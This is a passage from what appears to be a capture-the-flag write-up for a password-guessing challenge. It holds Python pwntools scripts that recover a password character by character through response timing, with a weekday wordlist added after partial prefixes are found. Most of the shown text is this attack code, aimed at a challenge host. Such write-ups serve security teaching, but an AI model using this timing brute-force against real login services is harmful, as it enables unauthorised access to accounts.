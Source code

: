 ```python
        for c in tqdm(alphabet):
            if check(password + c):
                password += c
                log.debug(f"password={password}")
                break
        else:
            raise NotFound(password)

if __name__ == '__main__':
    main()
```

Running this a couple of times, yielded a few prefixes before failing

- thurs
- sunda
- monda

### Wordlists

Due to the prefixes appearing to be days of the week, the script was adapted to try these first
```python
import string
from pwn import *
from tqdm import tqdm

alphabet = string.ascii_lowercase + string.digits + string.ascii_uppercase
host = "pwdguessr.chal.cybears.io"
port = 2323
r = remote(host, port)
user_line = r.recvline().decode()
user = user_line.split(" ")[-1][:-2]
r.recvuntil("Please enter your password: ")
days = ["monday", "tuesday", "wednesday", "thursday", "friday", "saturday", "sunday"]

class SuccessfulConnection(Exception):
    pass

class Timeout(Exception):
    pass

class NotFound(Exception):
    pass

def check(password: str):
    before = time.time()
    r.sendline(password)
    out = r.recv(5)
    if out != b"Sorry":
        if out == b"Conne":
            raise Timeout
        raise SuccessfulConnection(out.decode())
    after = time.time()
    r.recvuntil("Please enter your password: ")
    delta = after - before
    return delta < 0.5

def brute(password: str = ""):
    while True:
        for c in tqdm(alphabet):
            if check(password + c):
                password += c
                log.debug(f"password={password}")
                break
```